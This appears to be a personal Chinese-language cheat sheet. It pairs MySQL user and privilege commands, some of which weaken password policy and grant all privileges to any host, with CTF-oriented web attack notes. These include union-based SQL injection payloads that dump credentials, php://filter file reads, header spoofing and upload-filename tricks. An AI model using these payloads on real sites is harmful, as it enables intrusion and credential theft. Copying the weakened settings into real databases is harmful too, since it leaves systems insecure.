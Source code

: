 ```
	赋予user1用户对数据库所有表只有select,insert,delete,update权限。
	grant select,inset,delete,update on *.* to ‘user1’@’localhost’;
	set global default_password_lifetime = 90;//设置为默认密码过期时间为90天
	alter user 'username'@'localhost' PASSWORD EXPIRE NEVER;//禁用密码过期
	set password = password('新密码');   //重新设置密码
	set global validate_password_policy=0; //不验证格式
	set global validate_password_length=4; //长度为4
	create user 'username'@'host' identified by 'password';//创建新用户
	grant all privileges on *.* to 'yangxin'@'%';//表示将所有权限授予给用户。也可指定具体的权限，如：SELECT、CREATE、DROP等。
	flush privileges;//刷新所有权限
	show grants for user@host;//检测用户权限
     SQL注入总结
	show columns from `word`;#
	rename table `word` to `world2`;
	rename table `19198` to `world`;
	alter table world change flag id varchar(100);
	order by 3;#
	set sql_mode=pipes_as_concat;
	union select 1,2,3%23
	union select 1,database(),version()%23
	union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
	union select 1,2,group_concat(column_name) from information_schema.columns where table_name='world'
	union  select 1,2,group_concat(id,username,password) from world

BUUCTF
空格替换符($IFS,${IFS},%20,%09)
set sql_mode=pipes_as_concat;select 1
?file=php://filter/read=convert.base64-encode/resource=
header中添加上 `Referer:https://www.Sycsecret.com` ，来伪造访问来源
User-Agent协议来伪造访问工具为 Syclover 浏览器，这个协议就是告诉服务器我是用什么访问的 .修改 User-Agent 为User-Agent: Syclover 
X-Forwarded-For`协议来伪造只需要在 header 添加 `X-Forwarded-For:127.0.0.1`
Content-Disposition: form-data; name="file"; filename="a1.jpg"
Content-Type: image/jpeg

